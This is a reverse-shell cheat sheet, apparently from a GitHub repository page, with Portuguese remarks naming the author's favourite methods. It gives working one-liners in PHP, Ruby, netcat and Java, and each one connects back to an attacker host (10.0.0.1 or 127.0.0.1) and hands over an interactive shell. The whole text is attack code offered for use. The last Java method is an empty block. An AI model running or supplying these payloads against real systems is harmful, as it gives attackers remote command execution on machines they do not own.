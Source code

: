 ## PHP

```sh
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);`/bin/sh -i <&3 >&3 2>&3`;'
php -r '$sock=fsockopen("10.0.0.1",4242);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

Esse é o que eu mais uso
```sh
php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

## Ruby

### Ruby Linux

```sh
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4242).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end
```

### Ruby Windows

```powershell
ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## NetCat

```sh
nc -e /bin/sh 10.0.0.1 4242
nc -e /bin/bash 10.0.0.1 4242
nc -c bash 10.0.0.1 4242
```

## Java

Método 1
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/4242;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
Método 2
```java
String host="127.0.0.1";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Método 3 (Melhor)
```java
```